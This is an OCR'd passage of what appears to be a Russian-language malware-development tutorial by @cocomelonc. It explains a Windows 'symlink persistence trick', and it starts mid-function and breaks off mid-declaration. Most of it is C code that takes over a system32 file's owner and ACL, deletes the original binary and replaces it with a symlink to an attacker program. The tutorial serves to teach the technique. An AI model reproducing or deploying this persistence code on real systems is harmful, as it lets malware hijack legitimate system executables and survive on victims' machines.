 ```cpp
  printf("error setting security info: %d\n", GetLastError());
  free(pTokenUser);
  CloseHandle(hToken);
  CloseHandle(hFile);
  LocalFree(pNewAcl);
  return 1;
}
printf("setting security info: ok\n");

free(pTokenUser);
CloseHandle(hToken);
LocalFree(pNewAcl);
```

Наконец, удаляем исходный файл и установим символическую ссылку:     

```cpp
// delete the original file (requires administrative privileges)
if (!DeleteFileA((LPCSTR)legitApp)) {
  printf("error deleting original file: %d\n", GetLastError());
  return 1;
}
printf("original file deleted successfully\n");
CloseHandle(hFile);

HMODULE kernel = GetModuleHandle("kernel32.dll");
pCreateSymbolicLinkA = (BOOLEAN(WINAPI *)(LPCSTR, LPCSTR, DWORD))
GetProcAddress(kernel, (LPCSTR)"CreateSymbolicLinkA");

// create the symbolic link
if (!pCreateSymbolicLinkA((LPCSTR)legitApp, (LPCSTR)meowApp, 0)) {
  printf("error creating symlink: %d\n", GetLastError());
  return 1;
}

printf("symlink to meow created successfully =^..^=\n");
return 0;
```

Как видите, это сложнее: этот PoC демонстрирует, как устанавливать привилегии, изменять владельца файла, устанавливать списки управления доступом, удалять файл и создавать символическую ссылку с помощью Windows API.

Если вы попытаетесь немедленно удалить исходный файл из папки `system32`, вы получите ошибку: доступ запрещен.

Кроме того, если получение SID для текущего пользователя и его установка неверны, вы получите ошибку типа `1337` недопустимый владелец или что-то подобное.

Окончательный исходный код выглядит так `pers.c`:

```cpp
/*
* pers.c
* symlink persistence trick
* author: @cocomelonc
* https://cocomelonc.github.io/malware/2024/07/08/malware-pers-25.html
*/
#include <windows.h>
#include <stdio.h>
#include <aclapi.h> // for OWNER_SECURITY_INFORMATION
#include <sddl.h> // for ConvertStringSidToSid ???

BOOLEAN (WINAPI * pCreateSymbolicLinkA)(
  LPCSTR lpSymlinkFileName,
  LPCSTR lpTargetFileName,
  DWORD  dwFlags
```